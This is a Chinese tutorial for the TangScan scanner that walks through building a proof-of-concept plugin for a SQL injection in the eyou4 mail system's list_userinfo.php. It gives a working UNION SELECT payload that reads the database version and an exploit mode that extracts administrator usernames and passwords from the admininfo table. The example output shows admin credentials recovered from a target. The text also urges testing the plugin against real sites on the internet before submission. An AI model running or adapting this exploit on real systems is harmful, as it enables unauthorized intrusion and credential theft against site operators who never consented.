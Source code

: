 ==================
快速入门
==================

简介
=============
该文档能够帮助您快速的理解 **TangScan** 中 POC 的格式, 以及编写一个简单完整的 POC , 下面就让我们开始这一段旅程。




环境配置
=============
工欲善其事必先利其器, 在开发 POC 之前, 首先应该把环境搭建起来。

1. POC 由 python 编写, 所以 python 也是必不可少的, `python下载地址 <https://www.python.org/downloads/>`_
2. 下载地址 ::

    $ git clone https://github.com/wooyun/TangScan.git

   或者点击 `下载 <https://github.com/WooYun/TangScan/archive/master.zip>`_

3. 进入编写 POC 的工作目录 ::

    cd TangScan/tangscan

4. 希望POC编写者能够遵循 python  `pep8 规范 <http://legacy.python.org/dev/peps/pep-0008/>`_


编写POC
==============
下面我们以 ``http://www.wooyun.org/bugs/wooyun-2014-058014`` 中的 eyou4 的 ``/php/bill/list_userinfo.php`` 注入为例子,
开始编写这个漏洞的 POC 。

导入
-------------
.. code-block:: python
    :linenos:

    #! /usr/bin/env python
    # -*- coding: utf-8 -*-

    import re
    import hashlib

    from thirdparty import requests
    from modules.exploit import TSExploit

代码解释::

    line 4: 为了能够匹配网页内容, 我们需要import re
    line 5: 为了能够计算md5，我们需要import hashlib
    line 7: TangScan 还自带了一些比较好用的第三方库, 在这里我们import requests来处理http请求
    line 8: 编写TangScan POC不可缺少的一个类 TSExploit


定义TangScan类
------------------
.. code-block:: python
    :linenos:

    class TangScan(TSExploit):
        ... ...

代码解释::

    line 1: 定义TangScan类, 并且继承于TSExploit


填写漏洞信息
-------------------
.. code-block:: python
    :linenos:

    def __init__(self):
        super(self.__class__, self).__init__()
        self.info = {
            "name": "eyou4 list_userinfo.php sql 注入漏洞",  # POC 的名称
            "product": "eyou",  # POC 所针对的应用, 在 tangscan 主页上展示出所有的应用
                                # 名称必须和 tangscan 主页上的一致(大小写敏感)
            "product_version": "4",  # 应用版本号
            "desc": """
                eyou4 邮件系统中 /php/bill/list_userinfo.php 中的 cp 参数存在注入
            """,  # 漏洞描述
            "license": self.license.TS,  # POC 的版权信息
            "author": ["wooyun"],  # POC 编写者
            "ref": [
                {self.ref.wooyun: "http://www.wooyun.org/bugs/wooyun-2014-058014"},  # 乌云案例链接
            ],
            "type": self.type.sql_injection,  # 漏洞类型, 在详细介绍中列举了所有 POC 的类型
            "severity": self.severity.medium,  # 漏洞的危害等级, 在详细介绍中列举了所有 POC 的危害等级
            "privileged": False,  # 是否需要登录
            "disclosure_date": "2014-07-23",  # 漏洞的公布时间
            "create_date": "2014-09-23",  # POC创建时间
        }

代码解释::

    line 1: 定义TangScan中 __init__ 方法
    line 2: 调用父类 __init__ 方法
    line 3: 定义 info 属性, info 是 python 中一个字典类型
    line 10: 选择POC的版权信息, 在 self.license 中已经定义了几种license
    line 15: 漏洞类型, 在 self.type 中已经定义了几种type

* `self.license <detail.html#license>`_
* `self.type <detail.html#type>`_
* `self.severity <detail.html#severity>`_


注册POC所需选项
-----------------
然后继续在 ``__init__`` 方法下继续调用 ``register_option`` 方法, 该方法用于注册 POC 所需参数。

.. code-block:: python
    :linenos:

        self.register_option({
            "url": {
                "default": "",
                "required": True,
                "choices": [],
                "convert": self.convert.url_field,
                "desc": "target url"
            }
        })


代码解释::

    line 1: 调用 regsiter_option 方法注册所需参数
    line 2: 我们所需的参数是 url
    line 3: 设置参数 url 的默认值为 ""
    line 4: 设置参数 url 是否是必要参数
    line 5: 设置参数 url 的可选值, []为无可选值
    line 6: 设置参数 url 的类型, TangScan会判断以及自动将参数url转成POC中的url类型
            例如: www.example.com 转换成 http://www.example.com
    line 7: 设置参数 url 的描述, 这会在帮助中显示


另外需要注意的是在 ``verify`` 中只能使用 ``url`` 或者  ``host`` 和 ``port`` 选项。

也就是说, ``register_option`` 必须注册 ``url`` :

.. code-block:: python
    :linenos:

        self.register_option({
            "url": {
                "default": "",
                "required": True,
                "choices": [],
                "convert": self.convert.url_field,
                "desc": "target url"
            }
        })


或者 注册 ``host`` 和 ``port``:

.. code-block:: python
    :linenos:

        self.register_option({
            "host": {
                "default": "",
                "required": True,
                "choices": [],
                "convert": self.convert.str_field,
                "desc": "target host"
            },
            "port": {
                "default": "27017",
                "required": False,
                "choices": [],
                "convert": self.convert.int_field,
                "desc": "port number"
            }
        })


而且, 除了 ``host`` 和 ``port`` 参数, 其他参数必须将 required 设置为 False


注册POC所返回的结果
------------------------
然后继续在 ``__init__`` 方法下继续调用 ``register_result`` 方法, 该方法用于注册 POC 所返回的结果。

.. code-block:: python
    :linenos:

        self.register_result({
            "status": False,
            "data": {
                "user_info": {
                    "username": "",
                    "password": ""
                }
            },
            "description": "",
            "error": ""
        })

代码解释::

    line 1: 调用 register_result 方法注册POC返回结果
    line 2: POC 的成功失败状态, 必须
    line 3: POC 返回数据的存放处，必须名为 data, 而且data中的键都在 数据返回表 中已定义
    line 4: POC 的exploit模式将返回管理员用户名密码, 所以data下填写user_info
    line 5: POC 将返回 user_info 的 username
    line 6: POC 将返回 user_info 的 password
    ilne 9: POC 返回对人类可读性良好的信息, 最终会直接显示在漏洞报表中
    line 10: POC 执行失败或者异常的原因


定义verify方法
-------------------------
经过上面一些步骤, 我们已经填写好了 POC 的相关信息, 定义了输入和输出, 下面我们就来到了 POC 中一个极为重要的执行体 ``verify`` 方法。
``verify`` 顾名思义, 仅做验证目标网站是否存在漏洞, 不应存在恶意攻击行为, 不应该使用waf敏感的函数, 例如 mysql 中的 ``load_file`` 或 ``into outfile`` 等。
``verify`` 方法中只能使用 ``url`` 或者 ``host`` 和 ``port`` 做组合 两种类型作为输入参数。

.. code-block:: python
    :linenos:

    def verify(self):
        self.print_debug("verify start")

        re_version_pattern = re.compile(r'~~~(.+?)~~~', re.IGNORECASE | re.DOTALL | re.MULTILINE)
        cookies = {'cookie': 'admin'}
        exp_url = ("{domain}/php/bill/list_userinfo.php?domain=fatezero.org&ok=1&cp=1 union "
                   "select concat(0x7e7e7e,@@version,0x7e7e7e),2,3,4,5%23".format(domain=self.option.url))

        try:
            response = requests.get(exp_url, cookies=cookies, timeout=15, verify=False)
        except Exception, e:
            self.result.error = str(e)
            return

        re_result = re_version_pattern.findall(response.content)
        if len(re_result) == 0:
            self.result.status = False
            return

        self.result.status = True
        self.result.data.db_info.version = re_result[0]
        self.result.description = "目标 {url} 存在sql注入, 目标使用数据库版本为: {db_version}".format(
            url=self.option.url,
            db_version=re_result[0]
        )


代码解释::

    line 1: 定义 verify 方法
    line 2: 调用 print_debug 方法输出调试信息, 在选择调试模式下, 会将此消息输出
    line 7: self.option.url 就是我们所定义输入的 url , 在这里可以获取用户在命令行输入的 url
            例如: 使用 self.option.xxx 就可以获取在命令行输入的 xxx 的值
    line 20: self.result.status 就是我们所定义输出的 status, 检测目标url存在漏洞, 设置 self.result.status ＝ True
            例如: 使用 self.result.xxx 就可以获取或设置result 的结果
    line 22: 设置 result.description, 最终会在报表中直接显示



定义exploit方法
-------------------------
经过上一步, 我们完成了 ``verify`` 方法的实现, 下面我们继续实现 ``exploit`` 方法。
``exploit`` 方法带着攻击意图, 为了获取管理员信息, 直接获取服务器权限等, 能够方便的让安全服务人员使用。

.. code-block:: python
    :linenos:

    def exploit(self):
        self.print_debug("exploit start")

        re_userinfo_pattern = re.compile(r'~~~(\w+?)\|\|\|(\w+?)~~~', re.IGNORECASE | re.DOTALL | re.MULTILINE)
        cookies = {'cookie': 'admin'}
        exp_url = ("{domain}/php/bill/list_userinfo.php?domain=fatezero.org&ok=1&cp=1 union select concat(0x7e7e7e,"
                   "oid,0x7c7c7c,password,0x7e7e7e),2,3,4,5 from admininfo%23".format(domain=self.option.url))

        try:
            response = requests.get(exp_url, cookies=cookies, timeout=15, verify=False)
        except Exception, e:
            self.result.error = str(e)
            return

        re_result = re_userinfo_pattern.findall(response.content)
        if len(re_result) == 0:
            self.result.status = False
            return

        self.result.status = True
        self.result.data.user_info.username = re_result[0][0]
        self.result.data.user_info.password = re_result[0][1]
        self.result.description = "目标 {url} 存在sql注入, 目标管理员用户: {username}, 密码: {password}".format(
            url=self.option.url,
            username=self.result.data.user_info.username,
            password=self.result.data.user_info.password
        )


代码解释::

    line 1: 定义 exploit 方法
    line 2: 调用 print_debug 方法输出调试信息, 在选择调试模式下, 会将此消息输出
    line 4: 建立获取user_info的正则表达式, 建议在敏感信息周边加上特殊符号以便于正则获取, 也可以大程度减少误报
    line 15: 使用正则获取html页面中的信息
    line 20: 获取到敏感信息之后, 将status设置为 True
    line 21: 通过self.result.data.user_info.username = re_result[0][0] 可以很简单的设置结果中的username
    line 22: 通过self.resutl.data.user_info.password = re_result[0][1] 可以很简单的设置结果中的password


如果 ``exploit`` 和 ``verify`` 一样, 那么可以简单的这样做。

.. code-block:: python
    :linenos:

    def verify(self):
        # some code
        # ... ...

    def exploit(self):
        self.verify()

main入口
---------------
终于到了这一步, 我们只要简单的将这3行代码放到文件的最底处即可。

.. code-block:: python
    :linenos:

    if __name__ == '__main__':
        from modules.main import main
        main(TangScan())


代码解释::

    line 2: 导入 main 函数
    line 3: 执行 main 函数, 以TangScan的一个实例为参数

到这里, 我们完完整整的实现了一个POC, 带有verify模式和exploit模式的POC, 完整代码在 `github <https://github.com/WooYun/TangScan/blob/master/tangscan/eyou4_list_userinfo_sql_injection.py>`_ 。


执行POC
=======================

帮助信息
-----------------------
执行POC前, 我们先看一下POC的帮助信息。

.. code-block:: sh

    $ python eyou4_list_userinfo_sql_injection.py -h
    usage: eyou4_list_userinfo_sql_injection.py [-h] [--debug]
                                                [--mode {verify,exploit}] --url
                                                URL

    optional arguments:
      -h, --help            show this help message and exit
      --debug               显示测试信息
      --mode {verify,exploit}
                            POC 执行模式, default: verify [str_filed]
      --url URL             目标 url [url_field]

上面我们可以看到 ``-h`` 帮助参数, ``--debug`` 调试参数, ``--mode`` 执行模式, ``--url`` 目标url 。
其中 ``-h --debug --mode`` 都是系统附加, ``--url`` 是我们 POC 自己定义, 并且从上面信息可以看到 url 参数类型是 ``url_field``

执行信息
-------------------------
好了, 写了那么久, 总应该执行看一下效果了

.. code-block:: sh

    $ python eyou4_list_userinfo_sql_injection.py --url http://www.target.com --mode exploit
    [POC 编写者]
        ['wooyun']
    [风险]
        目标 http://www.target.com 存在 eyou4 list_userinfo.php sql 注入漏洞
    [详细说明]
        eyou4 邮件系统中 /php/bill/list_userinfo.php 中的 cp 参数存在注入
    [程序返回]
        目标 http://www.target.com 存在sql注入, 用户: admin, 密码: password
    [危害等级]
        高
    [漏洞类别]
        注入
    [相关引用]
        * 乌云案例: http://www.wooyun.org/bugs/wooyun-2014-058014

攻击模式执行成功!!! 我们获取到了目标网站的管理员账号密码。

提交POC
=========================
既然都那么辛苦的写完了, 为什么不去提交一下呢? 在提交前希望能在互联网上找到几个实际例子进行测试, 确认 POC 没有误报的情况。

提交地址: `http://www.tangscan.com/ <http://www.tangscan.com/>`_



